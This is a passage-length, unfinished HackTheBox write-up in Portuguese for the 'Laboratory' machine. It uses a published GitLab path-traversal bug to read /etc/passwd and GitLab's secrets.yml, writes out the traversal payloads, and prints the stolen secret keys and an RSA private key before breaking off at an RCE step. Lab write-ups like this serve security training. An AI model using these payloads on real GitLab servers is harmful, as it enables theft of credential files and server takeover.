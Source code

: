 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Laboratory - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/Yy18N58.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Issuer: commonName=laboratory.htb
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-05T10:39:28
| Not valid after:  2024-03-03T10:39:28
| MD5:   2873 91a5 5022 f323 4b95 df98 b61a eb6c
|_SHA-1: 0875 3a7e eef6 8f50 0349 510d 9fbf abc3 c70a a1ca
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Podemos perceber dois sites:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://laboratory.htb/
https://git.laboratory.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao acessar o site https://git.laboratory.htb/ nos deparamos com um [GitLab](https://about.gitlab.com/).

Em seguida, vamos tentar nos cadastrar:
![Image](https://i.imgur.com/ZBrnqIP.png)

Após o cadastro ser bem sucedido, temos acesso ao painel do GitLab, portanto, vamos tententar identificar a versão utilizada.

Na página https://git.laboratory.htb/help podemos identificar a versão exata que está sendo utilizada:
![Image](https://i.imgur.com/Jf44fiC.png)


Após encontrar a versão, podemos fazer buscas por exploits e falhas já conhecidas da versão...

Um [report](https://hackerone.com/reports/827052) do site de bugbounty HackerOne é nosso ponto inicial.

Portanto, devemos primeiramente criar dois projetos:

Vou chamar um de 'chu' e outro de 'stevenseagal' (XD)

Projeto 1 - chu:
![Image](https://i.imgur.com/xX8oTlp.png)

Projeto 2 - stevenseagal: 
![Image](https://i.imgur.com/EtNLpZ9.png)

Podemos conferir os dois projetos criados:
![Image](https://i.imgur.com/ntSr8u1.png)

Depois de criarmos os dois projetos, vamos tentar simular o que foi feito no report do H1.

Primeiro passo criar um novo Issue no projeto 'chu'
![Image](https://i.imgur.com/xMcW43V.png)

Dentro do issue iremos usar o mesmo payload do report
![Image](https://i.imgur.com/xMcW43V.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Logo em seguida, vamos mover o Issue para o outro projeto. (em meu caso do projeto chu para stevenseagal)
![Image]https://i.imgur.com/9r5mEnz.png

Ao mover, dentro do projeto 2(stevenseagal) podemos perceber que ele já renomeou o arquivo em anexo chamado 'a' para o arquivo que queriamos (/etc/passwd)
![Image](https://i.imgur.com/OND9zlB.png)

Ao abrir o arquivo, temos o conteúdo:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora que já conseguimos ler arquivos dentro do servidor, podemos procurar por arquivos sensiveis que nos auxiliaram na exploração...
Um deles é o [secrets.yml](https://docs.gitlab.com/ee/development/application_secrets.html)

Portanto, repetimos o mesmo passo que fizemos para ler o /etc/passwd.

![Image](https://i.imgur.com/IleNsTZ.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao mover para o projeto 2, temos o arquivo secrets.yml
![Image](https://i.imgur.com/1G0jbn2.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

---
production:
  db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
  openid_connect_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    MIIJKQIBAAKCAgEA5LQnENotwu/SUAshZ9vacrnVeYXrYPJoxkaRc2Q3JpbRcZTu
    YxMJm2+5ZDzaDu5T4xLbcM0BshgOM8N3gMcogz0KUmMD3OGLt90vNBq8Wo/9cSyV
    RnBSnbCl0EzpFeeMBymR8aBm8sRpy7+n9VRawmjX9os25CmBBJB93NnZj8QFJxPt
    u00f71w1pOL+CIEPAgSSZazwI5kfeU9wCvy0Q650ml6nC7lAbiinqQnocvCGbV0O
    aDFmO98dwdJ3wnMTkPAwvJcESa7iRFMSuelgst4xt4a1js1esTvvVHO/fQfHdYo3
    5Y8r9yYeCarBYkFiqPMec8lhrfmviwcTMyK/TBRAkj9wKKXZmm8xyNcEzP5psRAM
    e4RO91xrgQx7ETcBuJm3xnfGxPWvqXjvbl72UNvU9ZXuw6zGaS7fxqf8Oi9u8R4r
    T/5ABWZ1CSucfIySfJJzCK/pUJzRNnjsEgTc0HHmyn0wwSuDp3w8EjLJIl4vWg1Z
    vSCEPzBJXnNqJvIGuWu3kHXONnTq/fHOjgs3cfo0i/eS/9PUMz4R3JO+kccIz4Zx
    NFvKwlJZH/4ldRNyvI32yqhfMUUKVsNGm+7CnJNHm8wG3CMS5Z5+ajIksgEZBW8S
    JosryuUVF3pShOIM+80p5JHdLhJOzsWMwap57AWyBia6erE40DS0e0BrpdsCAwEA
    AQKCAgB5Cxg6BR9/Muq+zoVJsMS3P7/KZ6SiVOo7NpI43muKEvya/tYEvcix6bnX
    YZWPnXfskMhvtTEWj0DFCMkw8Tdx7laOMDWVLBKEp54aF6Rk0hyzT4NaGoy/RQUd
    b/dVTo2AJPJHTjvudSIBYliEsbavekoDBL9ylrzgK5FR2EMbogWQHy4Nmc4zIzyJ
    HlKRMa09ximtgpA+ZwaPcAm+5uyJfcXdBgenXs7I/t9tyf6rBr4/F6dOYgbX3Uik
    kr4rvjg218kTp2HvlY3P15/roac6Q/tQRQ3GnM9nQm9y5SgOBpX8kcDv0IzWa+gt
    +aAMXsrW3IXbhlQafjH4hTAWOme/3gz87piKeSH61BVyW1sFUcuryKqoWPjjqhvA
    hsNiM9AOXumQNNQvVVijJOQuftsSRCLkiik5rC3rv9XvhpJVQoi95ouoBU7aLfI8
    MIkuT+VrXbE7YYEmIaCxoI4+oFx8TPbTTDfbwgW9uETse8S/lOnDwUvb+xenEOku
    r68Bc5Sz21kVb9zGQVD4SrES1+UPCY0zxAwXRur6RfH6np/9gOj7ATUKpNk/583k
    Mc3Gefh+wyhmalDDfaTVJ59A7uQFS8FYoXAmGy/jPY/uhGr8BinthxX6UcaWyydX
    sg2l6K26XD6pAObLVYsXbQGpJa2gKtIhcbMaUHdi2xekLORygQKCAQEA+5XMR3nk
    psDUlINOXRbd4nKCTMUeG00BPQJ80xfuQrAmdXgTnhfe0PlhCb88jt8ut+sx3N0a
    0ZHaktzuYZcHeDiulqp4If3OD/JKIfOH88iGJFAnjYCbjqbRP5+StBybdB98pN3W
    Lo4msLsyn2/kIZKCinSFAydcyIH7l+FmPA0dTocnX7nqQHJ3C9GvEaECZdjrc7KT
    fbC7TSFwOQbKwwr0PFAbOBh83MId0O2DNu5mTHMeZdz2JXSELEcm1ywXRSrBA9+q
    wjGP2QpuXxEUBWLbjsXeG5kesbYT0xcZ9RbZRLQOz/JixW6P4/lg8XD/SxVhH5T+
    k9WFppd3NBWa4QKCAQEA6LeQWE+XXnbYUdwdveTG99LFOBvbUwEwa9jTjaiQrcYf
    Uspt0zNCehcCFj5TTENZWi5HtT9j8QoxiwnNTcbfdQ2a2YEAW4G8jNA5yNWWIhzK
    wkyOe22+Uctenc6yA9Z5+TlNJL9w4tIqzBqWvV00L+D1e6pUAYa7DGRE3x+WSIz1
    UHoEjo6XeHr+s36936c947YWYyNH3o7NPPigTwIGNy3f8BoDltU8DH45jCHJVF57
    /NKluuuU5ZJ3SinzQNpJfsZlh4nYEIV5ZMZOIReZbaq2GSGoVwEBxabR/KiqAwCX
    wBZDWKw4dJR0nEeQb2qCxW30IiPnwVNiRcQZ2KN0OwKCAQAHBmnL3SV7WosVEo2P
    n+HWPuhQiHiMvpu4PmeJ5XMrvYt1YEL7+SKppy0EfqiMPMMrM5AS4MGs9GusCitF
    4le9DagiYOQ13sZwP42+YPR85C6KuQpBs0OkuhfBtQz9pobYuUBbwi4G4sVFzhRd
    y1wNa+/lOde0/NZkauzBkvOt3Zfh53g7/g8Cea/FTreawGo2udXpRyVDLzorrzFZ
    Bk2HILktLfd0m4pxB6KZgOhXElUc8WH56i+dYCGIsvvsqjiEH+t/1jEIdyXTI61t
    TibG97m1xOSs1Ju8zp7DGDQLWfX7KyP2vofvh2TRMtd4JnWafSBXJ2vsaNvwiO41
    MB1BAoIBAQCTMWfPM6heS3VPcZYuQcHHhjzP3G7A9YOW8zH76553C1VMnFUSvN1T
    M7JSN2GgXwjpDVS1wz6HexcTBkQg6aT0+IH1CK8dMdX8isfBy7aGJQfqFVoZn7Q9
    MBDMZ6wY2VOU2zV8BMp17NC9ACRP6d/UWMlsSrOPs5QjplgZeHUptl6DZGn1cSNF
    RSZMieG20KVInidS1UHj9xbBddCPqIwd4po913ZltMGidUQY6lXZU1nA88t3iwJG
    onlpI1eEsYzC7uHQ9NMAwCukHfnU3IRi5RMAmlVLkot4ZKd004mVFI7nJC28rFGZ
    Cz0mi+1DS28jSQSdg3BWy1LhJcPjTp95AoIBAQDpGZ6iLm8lbAR+O8IB2om4CLnV
    oBiqY1buWZl2H03dTgyyMAaePL8R0MHZ90GxWWu38aPvfVEk24OEPbLCE4DxlVUr
    0VyaudN5R6gsRigArHb9iCpOjF3qPW7FaKSpevoCpRLVcAwh3EILOggdGenXTP1k
    huZSO2K3uFescY74aMcP0qHlLn6sxVFKoNotuPvq5tIvIWlgpHJIysR9bMkOpbhx
    UR3u0Ca0Ccm0n2AK+92GBF/4Z2rZ6MgedYsQrB6Vn8sdFDyWwMYjQ8dlrow/XO22
    z/ulFMTrMITYU5lGDnJ/eyiySKslIiqgVEgQaFt9b0U3Nt0XZeCobSH1ltgN
    -----END RSA PRIVATE KEY-----
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Podemos ver que o report inicial era sobre poder ler arquivos, mas lendo mais a seguir, podemos ver que é escalado para um RCE usando o gitlab-console.

Para isso, devemos instalar o GitLab, vamos usar o curl para isso:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl -s https://packages.gitlab.com/install/repositories/gitlab/gitlab-ce/script.deb.sh | sudo bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após a instalação, vamos reconfigurar o GitLab:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gitlab-ctl reconfigure
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Editar o arquivo de configuração com a secret_key_base que obtemos do nosso alvo, podemos apenas comentar a linha antiga e adicionar uma nova:
![Image](https://i.imgur.com/kI3d5jn.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nano /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~









to escrevendo guenta aew


if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


My references:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://hackerone.com/reports/827052
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
